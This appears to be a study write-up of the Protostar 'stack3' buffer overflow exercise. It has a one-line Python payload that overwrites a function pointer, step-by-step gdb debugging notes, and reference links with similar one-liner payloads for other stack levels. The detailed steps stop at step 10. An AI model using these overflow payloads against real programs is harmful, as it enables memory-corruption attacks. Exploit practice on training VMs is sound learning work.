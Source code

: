 
# Stack3: Jump to another function
------------------------------------------------------------------------
[Walkthrough]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
^beginning of video to 3:45

[Simple]: python -c "print('A' * 64 + '\x24\x84\x04\x08')" | ./stack3

[Detailed]: Step-by-Step
> 1.  $ cd /opt/protostar/bin
>
> 2.  $ gdb stack3
>
> 3.  `(gdb) set disassembly-flavor intel`
>
> 4. Print registers, subset of stack, and upcoming intructions
>    after each step
>
>     `(gdb) define hook-stop`
>     `> python print '------------------------'`
>     `> info registers`   #prints registers
>     `> python print '------------------------'`
>     `> x/24wx $esp`      #prints stack
>     `> python print '------------------------'`
>     `> x/5i $eip`        #prints instructions
>     `> python print '------------------------'`
>     `> end`
>
> 5.  Set breakpoints
>      Use `(gdb) disassemble main` if you want to see
>       what instruction we are breaking one
>
>    + Break at main:
>      `(gdb) break main`
>
>    + Break after user input:
>      `(gdb) break *(main+34)`
>
> 6.  `(gdb) run`
>     You should hit the first breakpoint
>
> 7.  Observe the next 2 instructions
>      <main+9>:	mov    DWORD PTR [esp+0x5c],0x0
>      <main+17>:	lea    eax,[esp+0x1c]
>
> 8.  Observe <main+9>: `mov DWORD PTR [esp+0x5c],0x0`
>    + `[esp+0x5c]` is the location of the function pointer `fp`
>
>    + In a decompiler (Ghidra/Cutter), you'll see that this assembly line
>      points to the line closest to `fp = 0;`
>
>     - In Ghidra it's `local_10 = (code *) 0x0;`
>
> 9.  Execute next instruction <main+9>: `mov DWORD PTR [esp+0x5c],0x0`
>     `(gdb) step`
>
> 10. Observe `fp` should be 0
>    + See as Integer (unsigned decimal)
>      `(gdb) x/u $esp+0x5c`
>
>    + See as Integer (hexadecimal)
>      `(gdb) x/x $esp+0x5c`
>
>    + See as bytes (4 bytes since int is 4 bytes)
>      `(gdb) x/4b $esp+0x5c`
>   

[Protostar]: https://exploit-exercises.lains.space/protostar/
[Protostar ISO]: https://drive.google.com/drive/folders/0B9RbZkKdRR8qbkJjQ2VXbWNlQzg?usp=sharing
[Reference Stack 0-7]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Walkthroughs]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Walkthrough]: https://www.youtube.com/watch?v=T03idxny9jE&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=13&ab_channel=LiveOverflow
[Simple]: python -c "print('A' * 65)" | ./stack0
[Simple]:  ./stack1 $(python -c "print 'A' * 64 + '\x64\x63\x62\x61'")
[Simple]: python -c "print('A' * 76 + '\xf4\x83\x04\x08')" | ./stack4
[Shellcode]: http://shell-storm.org/shellcode/
[Simple]: $ python -c "print('\x90' * 75 + 'BBBB')" | ./stack5
[Walkthrough]: https://www.youtube.com/watch?v=Y1RRda2Wnpw
[Walkthrough]: https://www.youtube.com/watch?v=m17mV24TgwY
[Walkthrough]: https://www.youtube.com/watch?v=IncswlWGn1M